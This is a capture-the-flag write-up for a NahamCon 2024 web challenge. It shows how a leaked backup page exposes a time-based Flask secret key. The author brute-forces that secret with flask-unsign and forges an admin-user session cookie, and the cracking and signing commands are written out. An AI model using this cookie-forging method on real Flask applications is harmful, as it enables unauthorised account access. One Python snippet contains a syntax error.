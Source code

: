 # Challenge Name: Thomas DEVerson


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-175-blue.svg)  

## Description

Author: @Jstith  
  
All things considered, I'm impressed this website is still up and running 200 years later.  
  
## Detailed solution

![Pasted image 20240525232509](https://github.com/BaadMaro/CTF/assets/72421091/f452f6c5-cfa2-4f21-b0e5-69358adcd8e4)

Start checking the pages. I found a comment on the Messages page view-source:http://challenge.nahamcon.com:32723/messages

```html
<!-- <a href="/backup" class="pl-md-0 p-3 text-white">Backup</a> !-->
```

http://challenge.nahamcon.com:32723/backup

![Pasted image 20240525232639](https://github.com/BaadMaro/CTF/assets/72421091/ca88130f-7376-4769-b8f8-1de85ba0d6b8)

We have a part of the app.py (10 lines) 

We can clearly see the app secret used for flask cookie management and also users.

The secret key is linked to the date time of app start, which is available at http://challenge.nahamcon.com:32723/status

The cookie used was `eyJuYW1lIjoiZ3Vlc3QifQ.ZlJnJQ.v6T-LeB_sG7QtOz-9nts1T9-jyA` which has the part {"name":"guest"} (using base64 decode).

Now we need to get the exact time used for secret key to forge our cookie using one of the allowed users

Getting the date http://challenge.nahamcon.com:32723/status

```
System healthy! Computing uptime... 82816 days 12 hours 41 minutes
```

```python
from datetime import datetime, timedelta

# Get the current date and time
now = datetime.now()

# Define the duration to subtract
days = 82816
hours = 12
minutes = 41

# Create a timedelta object for the duration
duration = timedelta(days=days, hours=hours, minutes=minutes)

# Calculate the past date and time
past_date = now - duration

# Print the result
print("past_date)
```

I got 1797-08-25. I ignored the hour and minutes to try to find them accurately.

```python
for hour in range(24):
    for minute in range(60):
        print(f"THE_REYNOLDS_PAMPHLET-17970825{hour:02}{minute:02}")
```

I saved the output in secrets.txt and started the cracking process using `flask-unsign`

```
flask-unsign -c "eyJuYW1lIjoiZ3Vlc3QifQ.Zk-uig.mX9ksf-4ohQQjnA3I6m2OlENt4Y" --wordlist secrets.txt -u --no-literal-eval

[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 640 attemptsLET-17970825
b'THE_REYNOLDS_PAMPHLET-179708250845'

```

We got the secret key `THE_REYNOLDS_PAMPHLET-179708250845`

Now let's generate our cookie

```
flask-unsign -c "{'name': 'Jefferson'}" --secret "THE_REYNOLDS_PAMPHLET-179708250845" --sign

eyJuYW1lIjoiSmVmZmVyc29uIn0.Zk-3WQ.WCy1txbI_4wuGzruToNF7FY14YQ
```

We need to change the cookie in devtools and check messages page

![Pasted image 20240525234745](https://github.com/BaadMaro/CTF/assets/72421091/56136246-ffd9-43d2-963f-4fd0fdf1588a)

## Flag

```
flag{f69f2c087b291b9da9c9fe9219ee130f}
```
